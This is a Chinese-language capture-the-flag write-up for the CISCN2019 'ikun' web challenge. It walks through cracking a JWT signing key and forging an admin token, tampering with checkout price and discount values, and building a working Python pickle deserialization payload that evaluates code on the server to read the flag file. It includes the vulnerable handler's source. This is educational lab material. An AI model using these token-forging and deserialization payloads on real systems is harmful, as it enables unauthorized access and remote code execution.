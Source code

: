 # \[CISCN2019 华北赛区 Day1 Web2]ikun

## \[CISCN2019 华北赛区 Day1 Web2]ikun

## 考点

* JWT
* 逻辑漏洞
* tornado代码审计
* pickle反序列化

## wp

注册登录，提示剩余金额1000，并且在cookie中有JWT字段

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFhYWEifQ.bJejEdbt0h9U-vvnfoUAF7JFOPy0o6LqHQnITMhYL2I
```

在[jwt.io](https://jwt.io)上看一下，提示需要密钥

![](<../../.gitbook/assets/image (13) (1) (1).png>)

可以使用[`jwtcrack`](https://github.com/brendan-rius/c-jwt-cracker)破解密钥，结果是1Kun，username改成admin，重新生成JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

回到个人中心，可以看到提示

![](<../../.gitbook/assets/image (12) (1) (1) (1).png>)

```
>>> s='\\u8fd9\\u7f51\\u7ad9\\u4e0d\\u4ec5\\u53ef\\u4ee5\\u4ee5\\u8585\\u7f8a\\u6bdb\\uff0c\\u6211\\u8fd8\\u7559\\u4e86\\u4e2a\\u540e\\u95e8\\uff0c\\u5c31\\u85cf\\u5728\\u006c\\u0076\\u0036\\u91cc'
>>> s.encode('utf8').decode('unicode_escape')
'这网站不仅可以以薅羊毛，我还留了个后门，就藏在lv6里'
```

然后找lv6在哪儿，写爬虫爆破，在181页

```php
import requests

url = 'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page=2'

for i in range(1,999999):
    url = f'http://d34fe1a5-ca55-4b0b-9f8e-52d8f8a89f48.node4.buuoj.cn:81/shop?page={str(i)}'
    r = requests.get(url)
    if '/static/img/lv/lv6' in r.text:
        print(url)
        break
```

![](<../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

给的钱不够，应该是个逻辑漏洞，抓包看看，在结算的时候，有个折扣的参数，这里是打了8折

![](<../../.gitbook/assets/image (9) (1) (1) (1).png>)

把price和discount都改成很低，看到返回了一个地址：`/b1g_m4mber`

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

直接访问可以看到提示，给了源码

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

`static/asd1f654e683wq/www.zip`下载源码，直接找路由吧，在`sshop/views/__init__.py`文件下

```python
handlers = [
    (r'/', ShopIndexHandler),
    (r'/shop', ShopListHandler),
    (r'/info/(\d+)', ShopDetailHandler),
    (r'/shopcar', ShopCarHandler),
    (r'/shopcar/add', ShopCarAddHandler),
    (r'/pay', ShopPayHandler),
    (r'/user', UserInfoHandler),
    (r'/user/change', changePasswordHandler),
    (r'/pass/reset', ResetPasswordHanlder),
    (r'/login', UserLoginHanlder),
    (r'/logout', UserLogoutHandler),
    (r'/register', RegisterHandler),
    (r'/b1g_m4mber', AdminHandler)
]
```

发现在`AdminHandler`中调用了`pickle.loads`，由此切入

```php
class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

`pickle.loads`把字符串转换成对象，`get_argument`用于获取GET或POST的参数，`urllib.unquote`是python2的用法，然后就可以构造pickle反序列化了

```python
# python2
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

得到结果

```
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```

回到`/b1g_m4mber`，把输入框的`hidden`删掉

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png>)

提交payload

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png>)

结果

![](<../../.gitbook/assets/image (12) (1) (1).png>)

## 小结

1. 破解JWT的密钥可以使用[jwtcrack](https://github.com/brendan-rius/c-jwt-cracker)，在kali中使用
